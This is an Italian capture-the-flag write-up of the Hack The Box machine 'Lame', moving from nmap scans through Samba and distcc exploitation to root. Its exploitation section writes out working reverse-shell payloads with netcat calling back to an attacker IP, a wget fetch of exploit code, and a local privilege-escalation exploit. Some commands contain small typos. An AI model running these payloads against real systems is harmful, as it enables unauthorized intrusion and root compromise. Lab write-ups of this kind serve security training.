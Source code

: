 # Lame

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.3
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 21:** File Transfer Protocol \(FTP\) versione 2.3.4
* **Porta 22:** OpenSSH versione 4.7p1
* **Porte 139 e 445:** Samba v3.0.20-Debian

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-1.png" />
</p>

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-2.png" />
</p>

Prima di iniziare a lavorare su queste porte, lancio una scansione nmap più completa in background.

```text
sudo nmap -sC -sV -O -p- -oA /usr/share/nmap/full 10.10.10.3
```

Di seguito il risultato della seconda scansione:

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-3.png" />
</p>

E' possibile notare la presenza di una nuova porta che non veniva mostrata nella scansione precedente.

* **Porta 3632**: distributed compiler daemon distcc versione 1.

Esco da questa fase con quattro differenti punti di ingresso da testare.

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 21 vsftpd v2.3.4

Una semplice ricerca su google mi mostra che questa versione è vulnerabile all'esecuzione di un comando backdoor che viene attivato inserendo una stringa come username che contiene i caratteri “:\)”.
Quando la backdoor viene attivata, la macchina di destinazione apre una shell sulla porta 6200.

E' possibile controllare l'effettiva vulnerabilità mediante uno script nmap.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-4.png" />
</p>

```text
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-5.png" />
</p>

Dall'output dello script capisco che non è possibile sfruttare questa vulnerabilità.

### 2) Porta 22 OpenSSH v4.7p1

Effettuando una rapida ricercaho trovato questo progetto: [OpenSSH 4.7p1 CVE-2008-5161 Exploit](https://github.com/pankajjarial360/OpenSSH_4.7p1).

Lo script openssh_4.7p1.py controlla la versione del servizio SSH per confermare che sia in esecuzione OpenSSH versione 4.7p1. Successivamente, imposta i parametri necessari per un attacco brute-force utilizzando un elenco di nomi utente e password presi da una specifica wordlist.

Una volta avviato e completato l'exploit, lo script recupera tutte le sessioni attive che sono state create e permette di interagire con esse.

Lancio lo script in background e proseguo con l'analisi dei restanti punti di ingresso.

```text
python openssh_4.7p1.py
```

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-8.png" />
</p>

Questa strada richiedeva troppo tempo e per questo motivo l'esecuzione dello script è stata interrotta.

### 3) Porte 139 e 445 Samba v3.0.20-Debian

Utilizziamo smbclient per accedere al server SMB.

```text
smbclient -L 10.10.10.3
```
* **-L**: lista dei serzi disponibili sul server

Noto che la mia macchina è configurata in maniera tale da non connettersi alle versioni SMB precedenti (per motivi di sicurezza).

Per ovviare a questo problema modifico il comando nel modo seguente:

```text
smbclient -L 10.10.10.3 --option='client min protocol=NT1'
```
<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-6.png" />
</p>

**E' disponibile il login anonimo!**

Ora cerco di capire quali sono i permessi sui file condivisi.

```text
smbmap -H 10.10.10.3
```

* **-H**: IP dell'host

Scopro di avere accesso di tipo READ/WRITE sulla cartella tmp.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-7.png" />
</p>

Effettuando una ricerca veloce noto che questa versione del servizio è [vulnerabile](https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-41384/Samba-Samba-3.0.20.html).

Cerco di sfruttare la vulnerabilità [CVE-2007–2447](https://www.cvedetails.com/cve/CVE-2007-2447/) che si basa su un problema legato all'invio di specifici metacaratteri.

```text
"/=`nohup " + payload.encoded + "`"
```

Prima di sfruttare la vulnerabilità, analizzo l'ultimo punto di ingresso rimasto.

### 3) Port 3632 distcc v1

Da una ricerca capisco che il servizio è vulnerabile all'esecuzione di codice da remoto.

Esiste uno script nmap che permette di verificare la presenza di questa vulnerabilità.

```text
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

**E' vulnerabile!**

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-9.png" />
</p>

Quindi ho a disposizione due strade per cercare di bucare questa macchina.

## Exploitation

### 1) Samba

Mi metto in ascolto sulla porta 8080.

```text
nc -nlvp 8080
```

Eseguo il login sul client smb.

```text
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'
```

Inserisco la sequenza di metacaratteri menzionata in precedenza.

```text
logon "/=`nohup nc -nv 10.10.14.5 8080 -e /bin/sh`"
```

**Ho ottenuto una shell dalla macchina lame con privilegi root!**

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-10.png" />
</p>

### 2) Distcc

Utilizzo uno script nmap per sfruttare la vulnerabilità citata precedentemente.

Mi metto in ascolto sulla porta 4444.

```text
nc -nlvp 4444
```

Successivamente, utilizzo lo script nmap per dare vita a una reverse shell.

```text
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.5 4444 -e /bin/bash'"
```

Questa volta non abbiamo una shell con privilegi root.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-10.png" />
</p>

Per ottenere i privilegi root provo con la vulnerabilità [CVE 2009–1185](https://www.exploit-db.com/exploits/8572).

```text
searchsploit -m 8572.c
```

Avvio un server sulla mia macchina.

```text
python -m SimpleHTTPServer 9000
```

Trasferisco il file alla macchina lame.

```text
wget http://10.10.14.5:9000/8572.c
```

Compilo l'exploit.

```text
gcc 8572.c -o 8572
```

Per eseguirlo mi servono devo:
* Trovare il PID del servizio
* Creare un file nella cartella /tmp e aggiungere una reverse shell in esso

Per ottenre il PID eseguo il seguente comando:

```text
ps -aux | grep devd
```
Creo il file **run** in /tmp e aggiungo una reverse shell all'interno.

```text
cd /tempo
echo '#/bin/bash' > run
echo 'nc -nv 10.10.14.5' 4445 -e /bin/bash' >> run
```

Mi metto in ascolto sulla porta 4445.

```text
nc -nlvp 4445
```

Eseguo l'exploit.

```text
./8572 2661
```

**Ed ecco l'utenza root!**
